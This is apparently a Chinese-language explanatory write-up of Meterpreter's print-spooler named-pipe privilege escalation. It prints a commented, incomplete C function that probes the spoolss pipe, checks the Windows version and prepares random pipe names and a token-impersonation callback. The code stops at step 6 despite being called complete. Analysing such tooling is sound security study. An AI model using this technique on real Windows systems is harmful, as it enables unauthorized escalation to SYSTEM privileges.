 下面是带有注释的完整代码解释，可以看到核心变化就在打印机上，其他并没有变化：

```bash
DWORD elevate_via_namedpipe_printspooler(Remote* remote, Packet* packet)
{
    DWORD dwResult = ERROR_SUCCESS;
    THREAD* pThread = NULL;
    HANDLE hSem = NULL;
    char cPipeName1[MAX_PATH] = { 0 };
    WCHAR cPipeName2[MAX_PATH] = { 0 };
    DWORD dwPipeUid[2] = { 0, 0 };
    OSVERSIONINFOEXW os = { 0 };
    HMODULE hNtdll = NULL;
    PRtlGetVersion pRtlGetVersion = NULL;
    PRIV_POST_IMPERSONATION PostImpersonation;

    do {
        // 1. 检查命名管道是否存在
        if (!does_pipe_exist(L"\\\\.\\pipe\\spoolss")) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: \\pipe\\spoolss is not listening.");
        }

        // 2. 获取 Ntdll 模块和系统版本信息
        hNtdll = GetModuleHandleA("ntdll");
        if (hNtdll == NULL) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Failed to resolve RtlGetVersion");
        }

        pRtlGetVersion = (PRtlGetVersion)GetProcAddress(hNtdll, "RtlGetVersion");
        if (pRtlGetVersion == NULL) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Failed to resolve RtlGetVersion");
        }

        os.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEXW);

        if (pRtlGetVersion(&os)) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: RtlGetVersion failed");
        }

        // 3. 检查系统版本是否支持
        if (os.dwMajorVersion < 6 || (os.dwMajorVersion == 6 && os.dwMinorVersion < 3)) {
            SetLastError(ERROR_CALL_NOT_IMPLEMENTED);
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Windows version not supported.")
        }

        // 4. 生成随机命名管道名
        dwPipeUid[0] = ((rand() << 16) | rand());
        dwPipeUid[1] = ((rand() << 16) | rand());

        _snprintf_s(cPipeName1, sizeof(cPipeName1), MAX_PATH, "\\\\.\\pipe\\%08x%08x\\pipe\\spoolss", dwPipeUid[0], dwPipeUid[1]);
        _snwprintf_s(cPipeName2, sizeof(cPipeName2), MAX_PATH, L"%08x%08x", dwPipeUid[0], dwPipeUid[1]);

        // 5. 创建信号量（Semaphore）
        hSem = CreateSemaphore(NULL, 0, 1, NULL);
        PostImpersonation.pCallback = set_meterp_thread_use_current_token;
        PostImpersonation.pCallbackParam = remote;

        // 6. 创建线程并运行
```